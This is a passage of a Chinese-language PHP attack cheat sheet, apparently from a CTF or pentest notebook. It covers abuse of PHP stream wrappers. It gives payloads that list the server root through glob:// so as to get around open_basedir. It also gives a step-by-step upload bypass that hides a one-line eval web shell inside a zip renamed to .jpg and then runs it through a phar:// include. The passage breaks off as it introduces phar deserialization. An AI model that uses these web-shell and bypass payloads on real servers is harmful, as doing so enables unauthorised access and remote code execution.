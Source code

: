   ```php
  payloadL:
  <?php 
      $a=new directoryiterator("glob:///*"); 
  foreach($a as $f) {
      echo($f->__tostring().' '); 
  } 
  ?>
  #	glob:///*	会列出根目录下的文件
  # 	glob://*	会列出open_basedir允许目录下的文件
  ```

  ##### opendir()+readdir()+glob://

  同样只能列出根目录已经open_basedir()允许的目录

  ```php
  <?php
  if ( $b = opendir('glob:///*') ) {
      while ( ($file = readdir($b)) !== false ) {
          echo $file."<br>";
      }
      closedir($b);
  }
  ?>
  ```

  

### phar://

- phar:// — PHP 归档，将多个文件组合成一个文件

- 不受`allow_url_fopen`、`allow_url_include`影响

- 运用：

  **1、绕过上传限制**

  可以利于phar://绕过一些上传限制，多数情况下搭配文件包含使用

  ```php
  # 构造木马shell.php->(压缩)xxx.zip->(修改后缀)xxx.jpg->上传->phar://xxx.jpg/shell.php
  1、构造木马 shell.php: 
  	<?php @eval($_POST["cmd"]);?>
  2、将shell.php压缩，并修改后缀名为jpg：xxx.jpg(实际是带有文件shell.php但修改了后缀名的压缩包)
  3、上传xxx.jpg并配合文件包含解析木马（payload：'phar://xxx.jpg/shell.php'）：
  	<?php 
  	include('phar://xxx.jpg/shell.php');
  	?>
  ```
  ![](https://i.loli.net/2021/02/25/xKtb5WPdZQJFaEN.png)

  **2、phar反序列化漏洞**

  - （ps : 也是反序列化漏洞，但无需借助unserialize()函数）
    
